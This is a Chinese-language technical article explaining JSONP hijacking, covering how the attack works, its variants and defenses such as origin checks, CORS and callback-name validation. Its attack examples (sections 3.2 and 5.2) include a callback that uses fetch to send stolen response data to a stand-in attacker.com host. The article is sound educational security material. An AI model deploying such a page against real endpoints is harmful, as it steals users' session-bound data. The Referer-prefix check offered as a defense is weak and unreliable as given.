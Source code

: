 # JSONP劫持漏洞技术文档

## 1. 概述

JSONP（JSON with Padding）是一种用于跨域数据请求的技术，常用于Web开发中绕过浏览器的同源策略限制。然而，JSONP的实现方式存在一定的安全隐患，尤其是在不当配置或使用的情况下，可能导致JSONP劫持（JSONP Hijacking）漏洞。本文将从定义、原理、分类、技术细节等方面系统性地阐述JSONP劫持漏洞，并提供相应的防御思路和建议。

## 2. 定义

JSONP劫持漏洞是一种利用JSONP技术实现跨域数据请求时，攻击者通过恶意页面窃取用户敏感数据的漏洞。由于JSONP请求通常以脚本形式嵌入到页面中，攻击者可以通过构造恶意页面，诱导用户访问并执行该脚本，从而获取用户的敏感信息。

## 3. 原理

### 3.1 JSONP工作原理

JSONP的核心思想是通过动态创建`<script>`标签，将跨域请求的URL作为`src`属性值，服务器返回的响应数据会被包裹在一个JavaScript函数调用中。客户端通过预先定义的回调函数来处理返回的数据。

```html
<script>
    function callback(data) {
        console.log(data);
    }
</script>
<script src="https://example.com/api?callback=callback"></script>
```

服务器返回的响应如下：

```javascript
callback({"name": "Alice", "age": 25});
```

### 3.2 JSONP劫持原理

JSONP劫持的核心在于攻击者能够通过恶意页面诱导用户访问目标JSONP接口，并窃取返回的敏感数据。攻击者通常通过以下步骤实现劫持：

1. **构造恶意页面**：攻击者创建一个包含恶意脚本的页面，该脚本会动态创建`<script>`标签，向目标JSONP接口发起请求。
2. **诱导用户访问**：攻击者通过钓鱼邮件、社交工程等手段诱导用户访问该恶意页面。
3. **窃取数据**：当用户访问恶意页面时，浏览器会自动执行恶意脚本，向目标JSONP接口发起请求，并将返回的数据传递给攻击者定义的回调函数，从而窃取用户的敏感信息。

```html
<script>
    function maliciousCallback(data) {
        // 将窃取的数据发送到攻击者的服务器
        fetch('https://attacker.com/steal?data=' + JSON.stringify(data));
    }
</script>
<script src="https://example.com/api?callback=maliciousCallback"></script>
```

## 4. 分类

JSONP劫持漏洞可以根据攻击方式和目标的不同进行分类：

### 4.1 基于用户会话的劫持

攻击者通过诱导用户访问恶意页面，利用用户的会话信息（如Cookie）向目标JSONP接口发起请求，从而窃取用户的敏感数据。

### 4.2 基于URL参数的劫持

攻击者通过构造特定的URL参数，向目标JSONP接口发起请求，从而窃取返回的数据。这种方式通常需要目标JSONP接口对输入参数的处理存在漏洞。

## 5. 技术细节

### 5.1 攻击向量

JSONP劫持的攻击向量主要包括以下几种：

1. **钓鱼攻击**：攻击者通过钓鱼邮件、社交工程等手段诱导用户访问恶意页面。
2. **XSS漏洞**：如果目标网站存在XSS漏洞，攻击者可以利用该漏洞注入恶意脚本，实现JSONP劫持。
3. **CSRF漏洞**：如果目标JSONP接口未对请求来源进行验证，攻击者可以通过CSRF攻击实现JSONP劫持。

### 5.2 攻击示例

以下是一个简单的JSONP劫持攻击示例：

```html
<script>
    function stealData(data) {
        // 将窃取的数据发送到攻击者的服务器
        fetch('https://attacker.com/steal?data=' + JSON.stringify(data));
    }
</script>
<script src="https://example.com/api?callback=stealData"></script>
```

当用户访问该恶意页面时，浏览器会自动执行脚本，向目标JSONP接口发起请求，并将返回的数据发送到攻击者的服务器。

### 5.3 防御绕过

攻击者可能会通过以下方式绕过常见的防御措施：

1. **动态回调函数名**：攻击者可以通过动态生成回调函数名，绕过基于固定回调函数名的防御措施。
2. **JSONP接口滥用**：攻击者可以通过滥用目标网站的JSONP接口，窃取用户的敏感数据。

## 6. 防御思路和建议

### 6.1 验证请求来源

目标JSONP接口应验证请求的来源，确保请求来自可信的域名。可以通过检查`Referer`头或使用CSRF Token来实现。

```javascript
app.get('/api', (req, res) => {
    const referer = req.headers.referer;
    if (referer && referer.startsWith('https://trusted-domain.com')) {
        const data = { name: 'Alice', age: 25 };
        res.jsonp(data);
    } else {
        res.status(403).send('Forbidden');
    }
});
```

### 6.2 使用CORS替代JSONP

CORS（Cross-Origin Resource Sharing）是一种更为安全的跨域数据请求技术，建议使用CORS替代JSONP。

```javascript
app.use((req, res, next) => {
    res.header('Access-Control-Allow-Origin', 'https://trusted-domain.com');
    res.header('Access-Control-Allow-Methods', 'GET, POST, PUT, DELETE');
    res.header('Access-Control-Allow-Headers', 'Content-Type, Authorization');
    next();
});
```

### 6.3 限制回调函数名

目标JSONP接口应限制回调函数名的范围，避免使用动态生成的回调函数名。

```javascript
app.get('/api', (req, res) => {
    const callback = req.query.callback;
    if (callback && /^[a-zA-Z0-9_]+$/.test(callback)) {
        const data = { name: 'Alice', age: 25 };
        res.jsonp(data);
    } else {
        res.status(400).send('Bad Request');
    }
});
```

### 6.4 使用HTTPS

确保目标JSONP接口使用HTTPS协议，防止数据在传输过程中被窃取。

### 6.5 定期安全审计

定期对目标JSONP接口进行安全审计，及时发现和修复潜在的安全漏洞。

## 7. 结论

JSONP劫持漏洞是一种常见的Web安全漏洞，攻击者可以通过构造恶意页面，窃取用户的敏感数据。为了有效防御JSONP劫持漏洞，开发人员应验证请求来源、使用CORS替代JSONP、限制回调函数名、使用HTTPS协议，并定期进行安全审计。通过这些措施，可以显著降低JSONP劫持漏洞的风险，保护用户的敏感数据安全。

---

*文档生成时间: 2025-03-11 14:18:11*
